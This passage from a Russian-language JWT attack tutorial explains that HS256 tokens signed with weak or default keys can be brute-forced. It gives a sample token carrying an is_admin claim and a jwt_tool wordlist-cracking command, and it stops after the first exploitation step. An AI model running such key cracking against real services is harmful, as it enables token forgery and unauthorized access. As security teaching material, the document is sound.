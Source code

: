 ![](img/rshs_3.png)

Результат.

![](img/rshs_4.png)

# "Слабый" secret key signature

Если используемый HMAC алгоритм подписи использует слабый или по-умолчанию ключ, то его можно получить с помощью простого перебора.
Это можно сделать с помощью различных утилит (по ссылкам найдете примеры команд):
- [Hashcat](https://twitter.com/hashcat/status/955154646494040065)
- [jwt tool](https://github.com/ticarpi/jwt_tool)

## Эксплуатация

### Шаг 1

Берем JWT подписаный с помощью алгоритма HS256
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc
```

Составляем или скачиваем wordlist для перебора.

Используя jwt_tool, подбираем secret key.

```bash
python2 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc wordlist.txt
```
